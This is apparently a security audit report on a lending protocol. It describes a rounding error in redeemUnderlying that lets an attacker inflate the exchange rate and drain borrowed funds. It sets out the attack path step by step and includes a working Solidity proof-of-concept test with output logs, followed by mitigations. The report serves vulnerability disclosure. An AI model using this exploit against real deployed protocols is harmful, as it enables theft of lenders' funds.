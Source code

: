 Formal Viridian Nuthatch

High

# [High] Rounding Error in `redeemUnderlying` Function Enables Collateral Inflation and Fund Drain

### Summary

A rounding error in the `redeemUnderlying` function will cause a complete loss of funds for lenders and the protocol as an attacker will inflate the exchange rate and exploit the undervaluation of burned shares to drain liquidity.

The missing precise rounding mechanism in `redeemUnderlying` causes shares to burn inaccurately, enabling an attacker to withdraw collateral exceeding their loan.

This is a very common exploit among these kind of protocols: https://blog.hundred.finance/15-04-23-hundred-finance-hack-post-mortem-d895b618cf33 
Every dev and auditor needs to be aware of this issue to mitigate a significant risk.

### Root Cause

In `redeemUnderlying`, the calculation for the number of shares to burn lacks precise rounding, leading to inaccurate burn values and enabling inflationary exploits.

https://github.com/sherlock-audit/2024-12-mach-finance/blob/main/contracts/src/CToken.sol#L501

### Internal Pre-conditions

1. An attacker needs to mint market shares using a small amount of collateral.
2. The attacker needs to redeem all but a minimal amount of minted shares.
3. The attacker donates a significant amount of tokens directly to the market contract to inflate the exchange rate.
4. The protocol must allow rounding errors during the burn calculation in `redeemUnderlying`.


### External Pre-conditions

1. The market must have zero or minimal liquidity to amplify the effects of the rounding error.

### Attack Path

1. The attacker mints shares using a small amount of collateral.
2. The attacker redeems all but a minimal amount of the minted shares.
3. The attacker donates a significant amount of tokens to the market, inflating the exchange rate.
4. The attacker borrows funds from another market using the inflated exchange rate.
5. The attacker redeems their collateral with minimal shares burned due to rounding errors.
6. The protocol interprets the remaining shares as sufficient to cover the outstanding loan, allowing the attacker to escape with the borrowed funds.

### Impact

The protocol and lenders suffer a total loss of liquidity in the affected market. The attacker gains substantial value, leaving the protocol insolvent with no collateral to cover outstanding loans.

### PoC

```solidity
contract CTokenTest is BaseTest {

    SimplePriceOracle public priceOracle;

    function setUp() public {
        _deployBaselineContracts();

        vm.startPrank(admin);
        priceOracle = new SimplePriceOracle();

        uint256 btcPrice = 100_000 * 10 ** (36 - wbtc.decimals());
        priceOracle.setUnderlyingPrice(CToken(address(cWbtcDelegator)), btcPrice);

        uint256 sonicPrice = 1 * 10 ** (36 - 18);
        priceOracle.setUnderlyingPrice(CToken(address(cSonic)), sonicPrice);

        comptroller._setPriceOracle(priceOracle);

        comptroller._setCollateralFactor(CToken(address(cWbtcDelegator)), 0.75e18);
        comptroller._setCollateralFactor(CToken(address(cSonic)), 0.5e18);
        vm.stopPrank();
    }


    function test_Exploit() public {
        // fund cSonic market to replicate eth market
        vm.deal(address(admin), 100.1 ether);
        vm.startPrank(admin);
        cSonic.mint{value: 100 ether}();

        // create user and fund user
        address attacker = makeAddr("leet");
        deal(address(wbtc), attacker, 50000000002);

        console.log("---x---");
        console.log("User Balances");
        console.log("wBTC: %d, ETH: %d", wbtc.balanceOf(attacker)/1e8, attacker.balance/1e18);
        console.log("---x---");

        address[] memory marketsToEnter = new address[](2);
        marketsToEnter[0] = address(cWbtcDelegator);
        marketsToEnter[1] = address(cSonic);

        vm.startPrank(attacker);
        wbtc.approve(address(cWbtcDelegator), type(uint256).max);
        // supply small amount of wBTC as collateral
        cWbtcDelegator.mint(2);
        comptroller.enterMarkets(marketsToEnter);

        // transfer wBTC to the pool
        wbtc.transfer(address(cWbtcDelegator), 500e8);

        // borrow eth
        cSonic.borrow(70e18);

        // redeem the collateral
        cWbtcDelegator.redeemUnderlying(499.999999e8);

        console.log("---x---");
        console.log("User Balances");
        console.log("wBTC: %d, ETH: %d", wbtc.balanceOf(attacker)/1e8, attacker.balance/1e18);
        console.log("---x---");
    }
}
```

Output:
```bash
Logs:
  ---x---
  User Balances
  wBTC: 500, ETH: 0
  ---x---
  ---x---
  User Balances
  wBTC: 499, ETH: 70
  ---x---
```

### Mitigation

- Ensure that markets never reach a zero liquidity state by minting a small amount of shares and sending them to the zero address.
- When listing a new collateral token:
First, set its collateral factor to zero.
Mint some shares and send them to the zero address.
Then, change the collateral factor to the desired value.
Introduce precise rounding mechanisms in the redeemUnderlying calculation to ensure correct burning of shares:
```solidity
sharesToBurn = (redeemAmountIn * precisionFactor) / exchangeRate;  
```
Enforce stricter checks on market liquidity to mitigate attacks based on low-liquidity scenarios.